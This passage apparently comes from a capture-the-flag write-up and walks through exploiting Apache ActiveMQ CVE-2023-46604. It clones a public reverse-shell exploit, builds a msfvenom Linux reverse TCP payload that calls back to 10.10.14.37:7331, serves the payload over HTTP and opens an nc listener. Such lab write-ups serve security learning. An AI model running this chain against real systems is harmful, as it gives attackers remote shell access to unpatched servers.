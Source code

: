 <figure><img src="../../.gitbook/assets/broker_googling.png" alt=""><figcaption><p>Figure 3: Googling for vulnerabilities.</p></figcaption></figure>

After following the steps outlined on the first [link](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ), we indeed achieve RCE (Figure 4).

{% tabs %}
{% tab title="Step 1" %}
{% code overflow="wrap" %}
```bash
# clone repo
sudo git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ
# move into the directory
cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/
# build the binary
sudo go build
# create the payload
sudo msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.37 LPORT=7331 -f elf -o test.elf
# start an HTTP server
python3 -m http.server 8001
```
{% endcode %}
{% endtab %}

{% tab title="Step 2" %}
<pre class="language-bash"><code class="lang-bash"># start a listener
<strong>nc -lvnp 7331
</strong></code></pre>
{% endtab %}

